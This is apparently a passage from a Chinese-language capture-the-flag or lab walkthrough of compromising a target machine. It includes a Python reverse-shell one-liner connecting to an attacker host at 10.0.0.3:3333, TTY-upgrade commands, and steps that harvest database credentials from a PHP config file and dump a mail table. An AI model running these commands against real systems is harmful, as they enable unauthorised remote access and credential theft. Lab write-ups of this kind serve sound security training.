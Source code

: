 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

反弹成功，切换到交互式shell

```
python3 -c 'import pty;pty.spawn("/bin/bash")'  
export TERM=xterm  
Ctrl+z快捷键  
stty raw -echo;fg  
reset
```

不知是shell脚本的问题还是其他什么原因，反弹回来的shell无法持久，在这里我在靶机上用python3重新反弹shell到攻击机的3333端口

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.3",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

现在来找找敏感信息

```
cd /home/ruby  
ls -al  
cat notes
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

在ruby用户下找到notes文件，里面有些提示信息

```
待办事项：  
信任证书  
修改shell密码匹配webmail  
完成事项：  
检查电子邮件ireadadmin工作是否正常  
chatbot正常使用  
仅限ssh密码登录   
创建root用户的邮箱
```

再找找敏感信息

```
cat /var/www/html/chatbot/initialize.php
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现数据库账号密码，登录mysql查询下是否有可利用的信息

```
mysql -u<username> -p<password>  
show databases;  
use vmail  
show tables;  
select * from mailvbox
```
